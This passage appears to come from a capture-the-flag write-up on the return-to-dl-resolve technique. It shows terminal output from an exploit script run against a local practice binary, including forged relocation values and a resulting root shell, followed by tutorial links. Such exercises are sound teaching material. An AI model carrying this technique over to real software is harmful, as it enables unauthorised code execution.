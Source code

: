 ```
root@bs-virtual-machine:~/pwnable/return-to-resolve# python exploit.py 
[*] '/root/pwnable/return-to-resolve/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Section Headers
[*] .dynsym  : 0x80481cc
[*] .dynstr  : 0x804822c
[*] .rel.plt : 0x80482b0
[*] .plt     : 0x80482f0
[*] .bss     : 0x804a020
[*] read@plt : 0x8048300
[*] read@got : 0x804a00c
[*] fake_reloc_offset : 0x2084
[*] fake_r_info       : 0x21707
[*] fake_st_name      : 0x2120
[+] Starting local process '/root/pwnable/return-to-resolve/rop': pid 4483
Hello ROP

[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/return-to-resolve
$  
```

**References**  
[https://bpsecblog.wordpress.com/2016/03/09/about_got_plt_2/](https://bpsecblog.wordpress.com/2016/03/09/about_got_plt_2/)  
[https://www.lazenca.net/display/TEC/01.Return-to-dl-resolve+-+x86](https://www.lazenca.net/display/TEC/01.Return-to-dl-resolve+-+x86)  
[https://pwn3r.tistory.com/entry/Docs-Reusing-Dynamic-Linker-for-Exploitation](https://pwn3r.tistory.com/entry/Docs-Reusing-Dynamic-Linker-for-Exploitation)  
[http://gooverto.tistory.com/attachment/cfile28.uf@21305D3B52FD21730AF17D.pdf](http://gooverto.tistory.com/attachment/cfile28.uf@21305D3B52FD21730AF17D.pdf)